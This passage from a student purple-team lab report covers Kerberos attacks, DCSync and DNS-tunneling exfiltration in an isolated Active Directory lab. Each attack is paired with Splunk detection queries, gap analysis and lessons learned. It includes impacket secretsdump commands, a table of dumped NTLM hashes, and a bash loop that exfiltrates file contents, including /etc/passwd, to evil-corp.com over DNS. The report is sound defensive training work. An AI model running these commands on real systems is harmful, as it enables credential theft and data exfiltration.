
*Event 4769 — Service_Name=svc_web, Ticket_Encryption_Type=0x17 (RC4).*

#### 6.2 — AS-REP roasting [T1558.004]

```bash
impacket-GetNPUsers 'SHADOWGRID.LOCAL/' -dc-ip 10.10.10.10 -usersfile users.txt
```
Result: no accounts vulnerable — all had Kerberos pre-authentication enabled. Tested, not vulnerable (documented as negative coverage).

#### 6.3 — DCSync [T1003.006]

```bash
impacket-secretsdump 'SHADOWGRID.LOCAL/Administrator:<password>@10.10.10.10'
```
Result: full domain credential dump via DRSUAPI replication.

| Account | RID | NTLM hash |
|---------|-----|-----------|
| Administrator | 500 | 7dfa0531d73101ca080c7379a9bff1c7 |
| krbtgt | 502 | 354e112f519fe4107a032e366dd3b7fb |
| j.smith | 1109 | a372e4660b769499a1cc6c8884237fdf |
| s.jones | 1108 | a372e4660b769499a1cc6c8884237fdf |
| m.wilson | 1110 | a372e4660b769499a1cc6c8884237fdf |
| svc_web | 1111 | 9cbb6ac75e2a4718563d2fdf9f41a01f |

Also extracted: Kerberos AES256/AES128/DES keys, machine-account hashes, DPAPI keys, and LSA secrets. The krbtgt hash enables a Golden Ticket — persistent domain access that survives password resets.


*secretsdump output showing the domain credential dump.*

Splunk detection — DCSync:
```spl
index=idx_windows host="DC01" sourcetype="WinEventLog:Security" EventCode=4662 Account_Name="Administrator" Properties="*1131f6ad-9c07-11d1-f79f-00c04fc2dcd2*"
```
Evidence: Event 4662 referencing the DS-Replication-Get-Changes-All extended right, GUID {1131f6ad-9c07-11d1-f79f-00c04fc2dcd2}, requested by Account_Name: Administrator. A non-machine account invoking replication rights is the definitive DCSync indicator.


*Event 4662 — DS-Replication-Get-Changes-All GUID requested by Administrator.*

Splunk detection — explicit credential use:
```spl
index=idx_windows host="DC01" sourcetype="WinEventLog:Security" EventCode=4648
```
Evidence: explicit-credential logon — Account: Administrator, Process: lsass.exe — corroborating the replication request.

---

### Phase 7 — Data exfiltration (T1048.003)

Objective: exfiltrate sensitive data from the compromised WebServer via DNS tunneling.

#### 7.1 — DNS tunneling

```bash
echo "CONFIDENTIAL: <sensitive test data>" > /tmp/secret_data.txt

# Exfiltrate file content as base64-encoded DNS subdomains
cat /tmp/secret_data.txt | base64 | tr -d '\n' | fold -w 40 | \
while read chunk; do
  dig "$chunk.exfil.evil-corp.com" @10.10.10.1 +short +timeout=2 2>/dev/null
done

# High-volume TXT tunnel simulation
for i in $(seq 1 50); do
  dig TXT "tunnel-$i-$(head -c 20 /dev/urandom | base64 | tr -d '/+=' | head -c 30).c2.evil-corp.com" \
  @10.10.10.1 +short +timeout=2 2>/dev/null
done

# Exfiltrate /etc/passwd
cat /etc/passwd | base64 | tr -d '\n' | fold -w 40 | \
while read chunk; do dig "$chunk.data.evil-corp.com" @10.10.10.1 +short +timeout=2 2>/dev/null; done
```

Splunk detection:
```spl
index=idx_network sourcetype="zeek:dns" query="*evil-corp.com*"
```
Evidence: 116 DNS queries from 10.10.10.50 to 10.10.10.1:53, with base64-encoded subdomains (40+ characters per label), all returning SERVFAIL.


*Zeek dns.log showing long base64 subdomains to evil-corp.com with SERVFAIL responses.*

Detection indicators: subdomain labels exceeding 30 characters, high query volume from a single host in a short window, TXT queries to an unknown domain, base64 character patterns in labels, NXDOMAIN/SERVFAIL responses.

---

## Detection summary matrix

| Phase | MITRE ATT&CK | Technique | Log source | Sourcetype | Key fields |
|-------|--------------|-----------|------------|------------|------------|
| 1 — Recon | T1046 | Network service scanning | Zeek conn.log | zeek:conn | conn_state=REJ, 129K+ from single source |
| 1 — Recon | T1046 | Directory brute-force | Zeek http.log | zeek:http | status_code=404, user_agent=gobuster |
| 2 — Initial access | T1190 | SQL injection | Zeek http.log | zeek:http | URI contains UNION/SELECT, status 200 |
| 2 — Initial access | T1059.004 | Command injection | Apache syslog | syslog | POST to /vulnerabilities/exec/, status 200 |
| 2 — Initial access | T1059.004 | Reverse shell | Apache syslog | syslog | python3 in POST body |
| 3 — Persistence | T1053.003 | Cron backdoor | Linux syslog | syslog | cron exec for www-data, 5-min cycle |
| 3 — Persistence | T1505.003 | Web shell | Apache syslog | syslog | GET to info.php with cmd parameter |
| 4 — Priv esc | T1078.003 | Password reuse (su) | Linux auth syslog | syslog | su session opened, uid 33 to 1000 |
| 4 — Priv esc | T1548.003 | Sudo to root | Linux auth syslog | syslog | sudo COMMAND=/usr/bin/su -, uid 1000 to 0 |
| 5 — Lateral | T1021.002 | SMBExec (logon) | Windows Security | WinEventLog:Security | EventCode=4624 Logon_Type=3 |
| 5 — Lateral | T1021.002 | SMBExec (privileges) | Windows Security | WinEventLog:Security | EventCode=4672 (SYSTEM) |
| 5 — Lateral | T1021.002 | SMBExec (network) | Zeek conn.log | zeek:conn | dest_port=445, service gssapi/smb/ntlm |
| 6 — Domain | T1558.003 | Kerberoasting | Windows Security | WinEventLog:Security | EventCode=4769, Ticket_Encryption_Type=0x17 |
| 6 — Domain | T1003.006 | DCSync | Windows Security | WinEventLog:Security | EventCode=4662, GUID {1131f6ad-...} |
| 6 — Domain | T1003.006 | DCSync (explicit creds) | Windows Security | WinEventLog:Security | EventCode=4648, lsass.exe |
| 7 — Exfil | T1048.003 | DNS tunneling | Zeek dns.log | zeek:dns | long subdomains, high volume, SERVFAIL |

12 of the 15 saved detection rules fired on real attack data. Three rules — PowerShell abuse (T1059.001), brute force (T1110), and RDP lateral movement (T1021.001) — are staged for techniques not exercised in this engagement. They are retained for coverage completeness.

---

## Detection gaps and recommendations

### Gap 1: Reverse shell over NAT
The reverse shells (Phase 2 and the Phase 3 cron) egressed from WebServer to Kali across the NAT segment, which the Zeek sensor does not monitor. The outbound C2 connection was invisible to network detection. This was closed with host-based syslog Detection 15, which catches the shell delivery at the Apache layer rather than the wire. In production: monitor every segment including management and NAT networks, and alert on unexpected outbound connections from servers that should never initiate egress.

### Gap 2: SMBExec service creation not captured
Event 7045 (new service installed) did not reliably capture the SMBExec service — it is created and deleted in milliseconds. Recommendation: enable command-line process auditing (Event 4688 with command line) and Sysmon Event 1. Alert on `cmd.exe /Q /c` patterns spawned by services and on SYSTEM-level process creation from unusual parents.

### Gap 3: No egress filtering for DNS
The DNS-tunneling queries passed through pfSense without restriction or perimeter alerting; detection relied entirely on the Zeek sensor. Recommendation: add DNS query-length monitoring (alert on labels exceeding 30 characters), per-host query-volume thresholds, entropy analysis, and allowlisting for servers that should only resolve known domains.

### Gap 4: No file integrity monitoring
The info.php web shell was only detected on access via HTTP, not on creation. Recommendation: deploy file integrity monitoring (Wazuh, OSSEC, or Sysmon for Linux) on web servers to alert when a new file appears in a web-accessible directory.

---

## MITRE ATT&CK coverage map


*Coverage heatmap exported from the MITRE ATT&CK Navigator.*

### Tactics covered (8 of 14)

| Tactic | Techniques demonstrated | Detection |
|--------|-------------------------|-----------|
| Reconnaissance | T1046 — Network Service Scanning | Detection 1 |
| Initial Access | T1190 — Exploit Public-Facing Application | Detection 2 |
| Execution | T1059.004 — Unix Shell | Detection 2 / 15 |
| Persistence | T1053.003 — Cron, T1505.003 — Web Shell | Detection 4 |
| Privilege Escalation | T1078.003 — Valid Accounts, T1548.003 — Sudo | Detection 6 |
| Credential Access | T1558.003 — Kerberoasting, T1003.006 — DCSync | Detection 9 / 10 |
| Lateral Movement | T1021.002 — SMB/Admin Shares | Detection 8 |
| Exfiltration | T1048.003 — Exfiltration Over DNS | Detection 13 |

---

## Tools used

Offensive: Nmap, Gobuster, Impacket (smbexec, GetUserSPNs, GetNPUsers, secretsdump), John the Ripper, Netcat, custom dig-based DNS exfiltration tooling.

Defensive and monitoring: Splunk Enterprise 9.2.1, Splunk Universal Forwarder 10.4.0, Zeek 8.2.0, Suricata 7.0.3, Sysmon 15.20, auditd.

---

## Lessons learned

1. Password reuse is the most reliable escalation path. A single reused credential bridged www-data to local admin to the domain. In real environments, reuse turns one foothold into full compromise.

2. DNS is a blind spot in most environments. The exfiltration went completely unmonitored at the perimeter; only the dedicated Zeek sensor caught it. DNS-layer analytics (length, entropy, volume) should not be treated as optional.

3. Time synchronization matters for both sides. Kerberos attacks fail past approximately 5 minutes of skew, and log correlation breaks when timestamps drift. NTP is security infrastructure.

4. Short-lived artifacts evade event-based logging. SMBExec creates and deletes its service in milliseconds. Catching it requires command-line auditing and behavioral analytics, not just event monitoring.

5. Multi-layered detection is non-negotiable. No single source caught everything. Zeek (network), Windows Security (auth), Sysmon (endpoint), and syslog (Linux) each covered what the others missed. The NAT reverse-shell gap proved why redundancy matters.

6. DCSync is detectable with the right auditing. Event 4662 combined with the DS-Replication-Get-Changes-All GUID is definitive. This audit policy belongs in every Active Directory environment.

---

*Operation Shadow Grid — Splunk Security Monitoring Lab*
*Ahmed Ali Khalifa — Cybersecurity Technology Engineering, Middle Technical University, Baghdad*
